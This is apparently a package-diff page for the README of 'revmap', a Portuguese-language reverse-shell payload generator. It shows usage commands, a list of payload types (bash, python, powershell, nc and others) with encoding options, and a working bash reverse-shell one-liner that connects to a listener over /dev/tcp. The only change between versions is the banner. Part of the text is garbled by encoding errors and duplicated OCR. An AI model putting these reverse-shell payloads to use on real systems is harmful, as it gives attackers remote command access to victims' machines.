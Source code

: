 ```
 Funcionalidade de realizar encode das payloads desejadas (Url encode, base64,
 hexadecimal e etc) # Forma de utilizaÃ§Ã£o ```sh revmap --ip 192.168.4.80 --
 port 4444 --payload bash --encode urlencode revmap --ip 192.168.4.80 --port
 4444 --payload bash revmap --ip 192.168.4.80 --port 4444 --payload python
 revmap --ip 192.168.4.80 --port 4444 --payload perl --encode base64 ``` Isso
 exibirÃ¡ a ajuda para a ferramenta. Aqui estÃ£o todos os switches que ele
 suporta: ```yaml ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/
-|_|_|_|__,| _| |_| v0.0.1 - @joaoviictorti options: --h, --help show this help
+|_|_|_|__,| _| |_| v0.0.4 - @joaoviictorti options: --h, --help show this help
 message and exit --version show program's version number and exit --ip IP
 Insert ip --port PORTA Insert port --payload
 {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang}
 Insert payload --encode {base64,hex,urlencode} Insert encode ``` # InstalaÃ§Ã£o
 revmap requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install revmap
 ``` # Executando revmap ```console revmap --ip 192.168.4.160 --port 8080 --
 payload bash ___ ___ _ _ _____ ___ ___ | _| -_| | | | .'| . | |_| |___|\_/
-|_|_|_|__,| _| |_| v0.0.1 - @joaoviictorti bash -c 'exec bash -i &>/dev/tcp/
+|_|_|_|__,| _| |_| v0.0.4 - @joaoviictorti bash -c 'exec bash -i &>/dev/tcp/
 192.168.4.160/8080 <&1' ``` [https://capsule-render.vercel.app/
 api?type=waving&color=0000FF&height=120&section=footer]
```

### Comparing `revmap-0.0.3/README.md` & `revmap-0.0.4/README.md`

 * *Files 1% similar despite different names*

```diff
@@ -36,15 +36,15 @@
 ```
 Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
 ```yaml
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti 
+        v0.0.4 - @joaoviictorti 
 
 options:
   --h, --help            show this help message and exit
   --version             show program's version number and exit
   --ip IP                Insert ip
   --port PORTA           Insert port
   --payload {bash,python,powershell,nc,php,perl,ruby,telnet,xterm,mkfifo,java,golang} Insert payload
@@ -64,15 +64,15 @@
 ```console
 revmap --ip 192.168.4.160 --port 8080 --payload bash
 
  ___ ___ _ _ _____ ___ ___ 
 |  _| -_| | |     | .'| . |
 |_| |___|\_/|_|_|_|__,|  _|
                       |_|  
-        v0.0.1 - @joaoviictorti 
+        v0.0.4 - @joaoviictorti 
                                                
 
 bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
 ```
 
